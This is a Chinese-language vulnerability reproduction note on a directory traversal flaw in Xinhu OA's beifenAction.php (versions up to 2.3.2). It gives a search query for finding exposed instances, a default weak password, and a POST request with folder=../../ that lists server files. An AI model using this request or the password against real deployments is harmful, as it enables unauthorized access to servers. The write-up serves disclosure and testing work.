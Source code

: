 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

<a-checkbox checked>信呼OA <= 2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="信呼协同办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637826393127-40e04bac-5443-4dd6-b5d4-b2e8e7e63606.png)

其中默认存在几个用户存在弱口令 123456

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637826384345-ad90b308-7431-4a96-9baa-6808129967ea.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637826483632-dc07740e-e0e5-4b6e-8ce3-e24ad1398db9.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`  

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637826756244-21762aa4-adbe-453a-86e3-452e767df30e.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```python
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637826832637-432df24d-758c-41c0-885e-ba6f79354ce4.png)